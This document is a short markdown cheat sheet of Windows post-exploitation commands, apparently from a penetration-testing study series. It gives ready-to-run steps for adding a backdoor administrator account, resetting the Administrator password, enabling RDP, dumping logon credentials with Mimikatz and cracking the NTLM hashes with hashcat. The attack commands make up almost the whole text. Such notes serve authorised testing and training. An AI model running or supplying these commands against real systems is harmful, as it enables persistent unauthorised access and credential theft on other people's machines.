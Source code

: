 # 08 - Windows post-exploit and AD

Index
- [Useful commands](#Useful-commands)
- [Mimikatz](#Mimikatz)

## Useful commands
Add admin user:
``` cmd
net user myuser Password1! /add 
net localgroup administrators myuser /add
```

Reset local Administrator password
``` cmd
net user Administrator Password1!
```

Enable RDP:
``` powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -name 'fDenyTSConnections' -value 0
Enable-NetFirewallRule -DisplayGroup 'Remote Desktop'
```

## Mimikatz
Get NTML hash and crack it:
``` bash
# mimikatz command
privilege::debug
sekurlsa::logonpasswords

# hashcat cracking
hashcat -m 1000 user.hash /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```